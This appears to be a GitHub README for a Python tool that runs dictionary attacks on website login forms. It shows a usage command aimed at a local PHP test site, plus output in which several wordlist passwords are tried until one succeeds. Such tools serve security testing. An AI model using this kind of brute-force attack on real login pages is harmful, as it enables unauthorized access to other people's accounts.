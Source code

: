 # Password Cracker
## Python script for dictionary attacks on websites login forms.

# Usage:
	cd website
	php -S localhost:8000 &
	cd cracker
	python cracker.py "http://localhost:8000/" "passes.txt" "username" "submit" "username?password?submit" "Username or password is invalid"
 # Output:
	Data correctly loaded!
	['superstronkpassword', 'toor', 'obsd', '12345678', 'password', '']
	Data correctly prepared!
	[('username', 'username', 'password', 'superstronkpassword', 'submit', 'submit'), ('username', 'username', 'password', 'toor', 'submit', 'submit'), ('username', 'username', 'password',
	'obsd', 'submit', 'submit'), ('username', 'username', 'password', '12345678', 'submit', 'submit'), ('username', 'username', 'password', 'password', 'submit', 'submit'), ('username', 'username', 'password', '', 'submit', 'submit')]
	[ 1/6 ] Sending  ('username', 'username', 'password', 'superstronkpassword', 'submit', 'submit') for http://localhost:8000/
	[ 2/6 ] Sending  ('username', 'username', 'password', 'toor', 'submit', 'submit') for http://localhost:8000/
	[ 3/6 ] Sending  ('username', 'username', 'password', 'obsd', 'submit', 'submit') for http://localhost:8000/
	[ 4/6 ] Sending  ('username', 'username', 'password', '12345678', 'submit', 'submit') for http://localhost:8000/
	[ 5/6 ] Sending  ('username', 'username', 'password', 'password', 'submit', 'submit') for http://localhost:8000/
	Password found!
	Login: username
	Password: password
	[ 6/6 ] Sending  ('username', 'username', 'password', '', 'submit', 'submit') for http://localhost:8000/
